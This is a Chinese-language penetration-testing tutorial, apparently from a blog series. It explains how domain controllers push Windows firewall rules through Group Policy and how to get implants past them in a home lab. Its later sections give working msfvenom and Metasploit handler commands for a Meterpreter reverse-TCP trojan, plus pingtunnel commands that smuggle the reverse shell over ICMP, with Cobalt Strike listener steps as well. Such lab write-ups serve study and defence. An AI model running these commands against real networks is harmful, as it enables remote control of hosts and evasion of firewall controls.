# 1. 前言

在之前的域信息收集一章节中大概了解了一些关于域方面的信息收集，良好的信息收集，能够最大化实现我们想要的目标，而我们在进行内网渗透的时候，通常已经是通过WEB的文件上传、命令执行等操作已经获取一定的权限了，而我们在获取这些权限的时候，我们还想获取更多的操作，那么就可能会遇到域，而在域中我们最终的目标就是获取域控的权限，而获取到域控权限后，也就实现了我们最终的目标，而如果在内网中没有域，那么就简单了。

而本章主要涉及域方面的防火墙的知识，如果我们碰到开启域防火墙后该如何操作.......

# 2. 域防火墙

使用域组策略/脚本统一配置防火墙

目前企业内网多为域环境，部分企业应用等需要客户端统一开放某一端口比如Ping，如果企业环境较大，客户端数千个逐个设置将是浪费工作效率且不灵活的方案；所以可以通过使用域策略来统一设置；

这里我们就简单介绍一下通过域控来实现全网防火墙策略同步的测试。

在域内的主机通常会开启防火墙，而这个防火墙的开启与设立都是基于域控来管理，简单来说就是管理员控制，内网中的用户是无权设立的，如果内网用户需要什么，那么域控管理员，可以针对这一台主机设立相应的入站出站规则，当然也可以设定全局同步，所以如果在内网渗透中，如果碰到域控并且还是开启了防火墙是一件挺麻烦的事。

## 2.1. 域控开启防火墙同步测试

首先这里我们需要准备好一个域控、一台域主机，来作为演示，首先来看一下是否为域环境，其实这里通过上章内容已经知道了，这个命令的作用和解释，这里我就不再解释了。



### 2.1.1. 查看域主机防火墙策略

这里我们先来看一下域内主机防火墙的策略是什么样的，后面在结合域控下发策略，来判断是否同步成功，通过查看，可以看到所有都是开启状态。



### 2.1.2. 域控防火墙策略下发同步

这里通过设定防火墙的策略让域内主机进行同步。

#### 2.1.2.1. 创建组策略

这里我们就利用域控来进行防火墙的策略下发。

`开始`》`管理工具`》`组策略管理`》`林`》`域`》`右击域`》`创建GPO`》`设定名字`





#### 2.1.2.2. 编辑组策略

这里就可以对组策略进行编辑了，`右击组策略`》`编辑`》`弹窗是`



#### 2.1.2.3. 编辑防火墙

`计算机配置`》`策略`》`Windows设置`》`安全设置`》`高级安全Windows`》`高级安全Windows`》`Windows防火墙属性`》`设置域防火墙开启`》`专用防火墙关闭`》`公用防火墙关闭`》`应用`



#### 2.1.2.4. 同步防火墙策略

关于同步防火墙策略这里，我发现直接点击强制，好像没什么反应，执行命令重启的时候好像也有点问题，但是重启后策略是正常同步了。

**官方解释：重启域成员计算机或用户登录到域成员计算机时，会自动刷新组策略。 此外，还会定期刷新组策略。 默认情况下，每 90 分钟执行一次这种定期刷新，随机偏移量不超过 30 分钟。**

```
gpupdate  ##更新组策略
```



## 2.2. 域控出入站规则同步

在域控中，有些情况下，防火墙是关闭的，但是管理员会从域控中下发出站入站的规则，比如只让某个主机能够访问域控的3389端口，或者根据不同的应用方通不同的策略。

### 2.2.1. 查看域主机出入站规则

先来看一下出站入站的规则，来确定后面的操作是否成功。

#### 2.2.1.1. 出站规则

在域主机上打开`管理工具`》`高级安全Windows防火墙`》`出站规则`



#### 2.2.1.2. 入站规则

在域主机上打开`管理工具`》`高级安全Windows防火墙`》`入站规则`



### 2.2.2. 域控出站规则下发同步

我们回到域控刚刚创建的组策略哪里，点开`高级Windows防火墙`就能够看到出入站规则了，默认的情况下是什么都没有的。



#### 2.2.2.1. 访问百度

这里我们准备创建一个禁止访问百度的情况，这里我们可以先来看看，是否能够访问百度，可以看到是可以访问百度的。



#### 2.2.2.2. 域控设置规则

到这里我们需要先了解，什么情况是入站规则，什么是出站规则。简单来说当你需要访问别人的时候就是出站，而当别人访问你提供的服务的时候是入站。

这里我直接设定关闭tcp全部端口，具体设置想必没不要介绍了吧，这个百度一大堆，而且看也能够看懂。

域控设置：`组策略`》`高级安全Windows`》`出站规则`



#### 2.2.2.3. 同步策略

当域控添加成功后，就可以在域主机上同步了，这里还是可以使用命令&重启来操作，后面我们打开`管理工具`》`高级安全Windows防火墙`》`出站规则`



#### 2.2.2.4. 测试访问百度

通过下图可以看到是已经无法访问了。



### 2.2.3. 域控入站规则下发同步

这里我就不再测试了，后面还有相关的测试，本质上和出站设置是一样的，只是要明白出站入站的方向。

# 3. 单机测试

主要测试一下，一些内网中可能会遇到的限制，让我们的马儿无法上线该如何解决，当然本章内容只会涉及到部分，毕竟关于这方面的内容还有很多内容，不可能一章就能够说完的。

这里我们就使用MSF的马来测试。

## 3.1. 协议参考

注意协议是向下兼容，比如TCP协议被禁止了，你觉得http协议还能够用么？定然是不能用的！

[协议详解](https://www.cnblogs.com/fzz9/p/8964513.html)



## 3.2. 常见的绕过方式

关于这里其实有很多种情况，这里我不一定能够全部做测试，先提前说一下可能会存在的各种拦截以及相应的解决办法，但是还有一点需要注意的就是，倘若设置的策略真的很严谨，可能真的就没折了，比如：只放通再用端口、只放通再用的协议像这里的，除非你能通过第三方软件漏洞、或者直接获取域控，否则可能真的就没辙的了，当然是我个人的了解，大佬肯定又一些其它的操作。

```
1.限制端口分为：入站限制端口、出站限制端口、出入站均限制端口。
		入站限制端口，出站未限制端口，使用反向连接。
		出站限制端口，入站未显示端口，使用正向连接。
		出入站均限制端口，使用端口绕过进行连接，建议配合反向连接。
		
2.限制协议分为：入站限制、出战限制、出入均限制，这些限制又分为：单协议限制、多协议限制、全部限制。
		入站限制：
			单协议限制，使用其它协议或者反向连接绕过。
			多协议限制，使用未被限制的协议或者反向连接绕过。
			全部协议限制，使用放弃或者反向连接绕过，但正常不会将所以协议都封闭的。
		出战限制：
			参考上面使用正向连接绕过。
		出入均限制：
			单协议限制，使用其它协议绕过。
			多协议限制，使用未被限制的协议绕过。
			全部协议限制，使用放弃绕过，但正常不会将所以协议都封闭的。
```

## 3.3. 限制端口上线

在一些情况下，管理员是把一些无用的端口关闭，或者说开放一些白名单端口让一些授权的来通信，这里我们将对端口限制进行测试，测试环境毕竟是自己搭建的，而在真实的环境中多多少少会存在一些不同，所以也是仅作参考。

未演示的绕过方式，参考`3.1常见的绕过方式`自学操作，否则需要写的太多了。

### 3.3.1. 设置出站端口规则

至于设置规则这里我就不细说设置的流程了，我们先提前说一下背景，我们使用5555端口的马，而在主机上是禁止1000-65535端口对外通信的，那么我们就可以使用替换端口来通信。

通过下图可以看到我们是设定了一个禁止TCP协议1000-65535端口对外通信的规则。



### 3.3.2. MSF生成木马

这里我们利用MSF生成一个木马。

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.10.20 LPORT=5555 -f exe > msf.exe
```



### 3.3.3. MSF开启监听

```
msfconsole 
use exploit/multi/handler 
set PAYLOAD windows/meterpreter/reverse_tcp 
set LHOST 192.168.10.20 
set LPORT 5555 
run
```


### 3.3.4. 上传并运行木马

这里如果谁问木马是如何上传上去的，那我也不知道该如何向你解释了。



### 3.3.5. 查看状态

可以看到执行完木马后，并未建立连接，就证明阻止成功了，那么像这个就很简单，你去替换一个端口即可上线，比如这里我替换一个999端口。



### 3.3.6. 替换端口后状态

这里可以看到替换完端口后，就成功上线了，这里有人感觉好像很简单，但是可能在实际的情况中，不会那么简单只是封禁端口绕过即可这种情况，更多的可能是封禁协议。



## 3.4. 限制协议上线

关于限制协议具体的绕过思路上面已经写到了，本来还想举一个例子的，但是翻遍了很多的文档都没涉及到如何生成其它类型木马，总之还是太菜了，很多的木马还是基于tcp连接，之前已经提到的，当禁止tcp协议后一些相关的协议比如http、https等都不能使用。

但是在下述的一个操作中，确实实现了，当TCP协议被封的时候可以采用ICMP协议连接，简单来说禁止TCP协议就是禁止TCP与外部进行连接，所以可以将流量转到ICMP上进行运行。

# 4. 域策略测试

关于这个域策略测试，主要涉及到的就是，如果主机没有网络该如何上线，如果主机存在网络但由于域策略限制无法上线又该如何操作，这里简单探讨一下思路。

如果是入站被封杀其实可以倒推下列的思路，具体更多的思路后续将慢慢说道。

```
1.主机出站TCP封杀，入站无封杀，但无互联网网络
	绕过思路：
		通过正向连接方式，并且需要域内一台可以上互联网的主机，同时可以与目标主机通信的，这时就可以利用域内可以上互联网的这台主机，把目标主机的数据交予它进行控制。

2.主机出站TCP封杀，入站无封杀，有互联网网络
	绕过思路：
		这个有两种方式，一种就是上述提到的方式，还有一种就是采取隧道技术，把流量引到其它协议上通信。
```

## 4.1. 背景介绍

域控通过使用策略设置域内主机的防火墙同步规则后，域内的主机被限制TCP出网，其中的规则设定的是出战规则，在渗透测试过程中，通过其它手段获得shell权限，需要对其进行上线操作。

而上述的背景主要就是对上面提到的第二条，这里我们可以采用正向连接或隧道技术，而且正向连接我们暂时先不涉及，先来说一下隧道技术。

### 4.1.1. 隧道技术介绍

在实际的网络中，通常会被各种边界设备、软/硬件防火墙、IPS、IDS、态势感知等来检查对外连接，如果当防火墙中检测的异常了就会自动的对其进行拦截，比如：你在防火墙上设定了不允许主机A去访问主机B，那么当主机A去访问主机B的时候，防火墙检测到这个异常后，就会对其进行拦截，使其无法通信。

而隧道技术，简单来说就是绕过屏蔽的端口或者协议的通信方式，比如：按照上面的背景，防火墙拦截了TCP协议，使其无法上网，就会导致我们的在做渗透测试的时候，无法使木马上线，那么这时候如果ICMP协议没有被限制，那么就可以实现将数据包封装在ICMP协议中进行通信，然后穿过防火墙，当数据包到底目的地的时候，再将数据包还原，并将还原后的数据包发送到相应的服务器上。

## 4.2. 不出网MSF上线案例

这里就列举一个不出网上线的案例，ICMP协议，通常来说不会被禁止的，由于ping需要使用到ICMP协议，而ping这个功能是最简单的测试连通性的方式，所以说通常不会被禁止。

### 4.2.1. 工具准备

这里我们需要将TCP流量转换到ICMP中，所以我们需要使用到工具，这里提供三个ICMP的项目，本次的实验我们使用到的是pingtunnel这个工具。

[SPP](https://github.com/esrrhs/spp)、[icmpsh](https://github.com/bdamele/icmpsh)、[pingtunnel](https://github.com/esrrhs/pingtunnel)

#### 4.2.1.1. 下载服务端

这里我们需要先下载服务端，我们下载Linux的，因为我们需要对接CS、msf都需要使用到Linux系统，所以我们使用Linux的方便一些。

注意这里下载挺简单，但是在介绍中，并没有直接指明服务端与客户端所以有点无奈，我查阅了很多资料，都是直接说如何使用的，而且有些工具名字是一样的，但是并不是这个工具，也无奈，所以我就一个一个下载下来测试.......

这里下载下来后是一个ZIP的压缩，我们解压，然后将文件上传到Linux系统中即可，虽然说是Linux，但是应该也都能猜到其实就是kali。



#### 4.2.1.2. 运行服务端

这里运行服务端主要是测试是否能够正常运行，这里需要使用最高权限进行执行。

```
sudo ./pingtunnel -type server
```



#### 4.2.1.3. 下载客户端

这里我们需要对Windows系统进行转发，那么我们就下载Windows的。



#### 4.2.1.4. 上传客户端

这里我们将下载下来的客户端解压，然后上传到目标主机中。



### 4.2.2. 前期准备

这里我们就按照上述提到的背景介绍来进行模拟。

#### 4.2.2.1. 目标主机情况

**注意事项：**

**如果你发现你设置的模拟环境无法访问百度，也ping不同，请把DC开启，DC就是域控虚拟机也开启。**

可以看到目标主机的出战规则中是存在一条名称为baidu的策略，该策略就是显示TCP流量出网的，通常情况下我们直接上传木马是无法上线的，由于木马都是TCP连接所以就会导致我们的木马无法上线。



这里我们再测试一下百度情况，可以看到我们是能够ping通百度，但是却无法访问百度，这是由于ping是走ICMP协议，而访问百度是走TCP协议。



#### 4.2.2.2. 攻击机情况

这里我们开启监听即可。



### 4.2.3. MSF设置

这里我们需要注意的点有很多，由于我们之前使用的是MSF直接生成远程连接的木马，比如你攻击机的IP是多少，那么生成木马的时候远程连接的IP就是你的攻击机IP，但是这里不一样的了，我们来下面介绍一下。

#### 4.2.3.1. 区别介绍

可能会发现，这里我们生成的木马是127.0.0.1了，这是由于需要配合刚刚的TCP转ICMP工具，可以看下面的命令我再一条一条解释：

MSF生成木马：由于再目标主机上TCP已经被封杀了，如果我们还写攻击机的IP地址，那么当运行木马的时候，会直接被拦截，导致木马失效，而如果设置木马为本地地址，那么就不会被封杀，只是会再本地一直停留打转，但这样可以确保木马在运行的状态。

工具转发命令：而工具转发，首先工具去将刚刚木马的127.0.0.1：5555端口的流量封装成ICMP流量，然后将这个流量转发到192.168.10.20：6666上，而且192.168.10.20也就是我们的攻击机，这样就完成了整套的流量封装与转发。

而我们要监听的端口，以往都是木马设定的回连端口是多少，我们就监听多少，而现在我们要监听的端口是工具转发回来的端口，也就是6666.

```
MSF生成木马：
msfvenom -p windows/meterpreter/reverse_tcp LHOST=127.0.0.1 LPORT=5555 -f exe > msf.exe

工具转发命令：
pingtunnel.exe -type client -l 127.0.0.1:5555 -s 192.168.10.20 -t 192.168.10.20:6666 -tcp 1 -noprint 1 -nolog 1
```

#### 4.2.3.2. 生成木马

关于生成木马，命令上面都有了，这里我就不说了，然后将木马上传到目标机器中。



#### 4.2.3.3. 设置监听

这里我们需要设置监听的IP为0.0.0.0，确保能够正常监听到。

```
msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost 0.0.0.0
set lport 6666
run
```



### 4.2.4. 正式测试

到这里，我们前期的准备都OK了，下面我们就开始正式的操作吧。

#### 4.2.4.1. 目标主机测试

这里我们将目标主机上的木马进行运行，然后再运行工具，主要这里运行工具需要使用最高权限，简单来说，当你获取到域内主机的时候，需要先提权，然后在转发。

这里我发现，如果先执行木马再运行工具，MSF无法上线，需要先运行工具，然后在执行木马才可以上线。

```
pingtunnel.exe -type client -l 127.0.0.1:5555 -s 192.168.10.20 -t 192.168.10.20:6666 -tcp 1 -noprint 1 -nolog 1
```



#### 4.2.4.2. 查看转发流量情况

可以看到这里有很多的流量进行转发。



#### 4.2.4.3. 查看上线情况

这里我发现，不知道为什么木马运行好像有点不正常，容易掉线，不过确实能够正常上线。


## 4.3. 不出网CS上线案例

这里的前期准备我就不过多说了，直接上手操作吧，前期的准备以及工具准备都是一样的操作，这里直接设置cs吧

### 4.3.1. 设置CS监听器

这里我们之前分析过了，所以这里我们要设置两个监听器，一个监听器用于生成木马，一个监听器用于接收返回信息。

#### 4.3.1.1. 监听器1

这里需要将所有的IP地址都设置为127.0.0.1。



#### 4.3.1.2. 监听器2

这个监听器主要是用于接收工具转发返回回来的信息，所以要设置监听本地。



### 4.3.2. 生成木马

到这里就可以生成木马了，然后将木马上传到目标主机上。

#### 4.3.2.1. 生成stageless木马

关于stageless：

stage是无阶段的stager，可以直接理解成，stage是stager与它所请求的数据的集合体。stage比stager更安全，但是体积更大。而且在内网穿透的时候基本只能用stage，用stager会十分麻烦，stager是分段传输payload的，使用stager有时候会导致目标无法上线。stage唯一的缺点是相比较而言体积比较大。



#### 4.3.2.2. 设置监听器

这里设置监听器一定要选择监听器1。



### 4.3.3. 正式测试

到这里我们通过上述的操作就可以正式的测试了，我们先来看看环境有没有变化，是否还是只能ping通百度，无法访问百度。通过测试可以看到还是这个状态。



#### 4.3.3.1. 目标主机测试

这里我们就还是和MSF操作一样，运行工具，然后运行木马。

```
pingtunnel.exe -type client -l 127.0.0.1:5555 -s 192.168.10.20 -t 192.168.10.20:6666 -tcp 1 -noprint 1 -nolog 1
```



#### 4.3.3.2. 查看转发情况

可以看到成功转发。



#### 4.3.3.3. 查看上线情况

这里我们也可以看到成功上线了。



# 5. 总结

在域中还有很多的绕过的方式，但是不可能都写出来，而且水平有限，也是在学习的，后续还是会有很多内网方面的内容。
